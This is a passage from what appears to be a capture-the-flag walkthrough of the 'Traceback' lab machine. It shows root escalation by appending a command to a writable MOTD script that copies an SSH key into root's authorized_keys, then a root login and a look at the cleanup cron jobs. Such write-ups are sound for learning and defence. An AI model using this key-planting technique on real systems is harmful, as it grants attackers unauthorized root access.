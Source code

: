 I had noted earlier that the attacker changed the MOTD. It seems like an
obvious hint (in hindsight). I'll look in [Beyond
Root](#motd-enumeration) at how I could have detected this without the
cron.

### Shell

I could add a reverse shell into one of these, but instead I'll add code
to get my public key into `/root/.ssh/authorized_keys`:



    sysadmin@traceback:/etc/update-motd.d$ echo "cp /home/sysadmin/.ssh/authorized_keys /root/.ssh/" >> 00-header 



These files are going to be run when I SSH into the box. So I'll
immediately SSH into the box as webadmin before the 30 second cleanup
happens. When I do, the `00-header` script is run, and now my public key
should be in root's `authorized_keys` file.

I'll SSH in as root:



    root@kali# ssh -i ~/keys/id_rsa_generated root@10.10.10.181
    #################################
    -------- OWNED BY XH4H  ---------
    - I guess stuff could have been configured better ^^ -
    #################################

    Welcome to Xh4H land 



    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

    Last login: Fri Jan 24 03:43:29 2020
    root@traceback:~# 



Now I can grab `root.txt`:



    root@traceback:~# cat root.txt
    ccda9e55************************



## Beyond Root

### Cron

Just to take a quick look at the cron that's driving the cleanup, it is
actually two crons:



    root@traceback:~# crontab -l
    ...[snip]...
    # m h  dom mon dow   command
    * * * * * /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
    * * * * * sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
